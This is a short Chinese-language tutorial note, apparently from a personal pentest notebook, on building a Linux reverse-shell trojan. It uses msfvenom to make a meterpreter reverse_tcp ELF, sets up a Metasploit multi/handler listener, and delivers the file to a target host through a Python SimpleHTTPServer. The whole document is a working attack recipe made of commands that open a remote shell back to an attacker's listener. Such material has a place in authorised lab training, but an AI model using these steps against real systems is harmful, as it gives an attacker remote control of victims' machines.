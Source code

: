 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台靶机

# 二、木马生成

1. 生成一个Linux后门
2. msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={监控IP} LPORT={监控端口} -f elf > shell.elf!
![[22 通过木马反弹shell（Linux）.assets/1643108165465.png]]

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf

   ![[22 通过木马反弹shell（Linux）.assets/1643108186343.png]]

2. 载入监控模块  msf中输入：  use exploit/multi/handler

3. 加载payload  msf终端中输入：set payload linux/x64/meterpreter/reverse_tcp

4. 配置payload  msf终端中输入：show options

   ![[22 通过木马反弹shell（Linux）.assets/1643108202630.png]]

5. 配置payload监控IP msf终端中输入： set  lhost  {监控IP}

6. 配置payload监控端口  msf终端中输入：set lport  {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：show options

8. 执行监控  msf终端中输入： run

   ![[22 通过木马反弹shell（Linux）.assets/1643108218621.png]]

# 四、攻击利用

1. 将木马上传到靶机 

   通过python创建一个简单web服务

    python2 -m SimpleHTTPServer 80

2. 在靶机上执行木马 

3. 完成攻击利用

   ![[22 通过木马反弹shell（Linux）.assets/1643108263211.png]]













